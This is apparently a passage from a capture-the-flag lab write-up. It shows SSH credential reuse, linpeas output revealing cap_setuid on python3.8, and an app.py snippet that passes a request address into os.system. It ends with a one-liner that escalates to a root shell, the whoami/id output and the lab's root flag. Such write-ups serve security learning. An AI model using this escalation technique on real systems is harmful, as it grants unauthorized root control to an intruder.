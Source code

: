 Since i was not finding anything else (interesting), i tried ssh with the same creds and we got **credentials reuse** :D <br>

Now, after i ran **linpeas**, i had not much interesting information/leads besides this

```sql
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
```

Since we had little to no information, i went on checking if the application had any type of hidden features <br>

Reading through it is pretty easy, the code isn't that badly written, and we can find intersting things
```py
"""This is a snip from the /var/www/html/app.py file"""

@app.route("/capture")
@limiter.limit("10 per minute")
def capture():
    get_lock()
    pcapid = get_appid()
    increment_appid()
    release_lock()
    path = os.path.join(app.root_path, "upload", str(pcapid) + ".pcap")
    ip = request.remote_addr
    # permissions issues with gunicorn and threads. hacky solution for now.
    #os.setuid(0)
    #command = f"timeout 5 tcpdump -w {path} -i any host {ip}"
    command = f"""python3 -c 'import os; os.setuid(0); os.system("timeout 5 tcpdump -w {path} -i any host {ip}")'"""
    os.system(command)
    #os.setuid(1000) 
    return redirect("/data/" + str(pcapid))
                                              
```

My initial idea was to spoof the request's ip address and inject into the **command** via the **id = request.remote_addr**. No success ! <br>

But, as we can see, the command uses **os.setuid(0)** to execute as root (since the app.py belongs to the user nathan and tcpdump needs root privileges) <br>

If we just searched for what we found in linpeas we would came to the same conclusion, python with the **cap_setuid** is able to change the UID of the process <br>

With this, we can exploit python's configuration in order to privesc with a simple one-liner
```bash
cmd: python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
cmd: whoami && id
root
uid=0(root) gid=1001(nathan) groups=1001(nathan)
cmd: cat /root/root.txt
# FLAG: e81e33c4b122d5773df0d668843e0a00
```

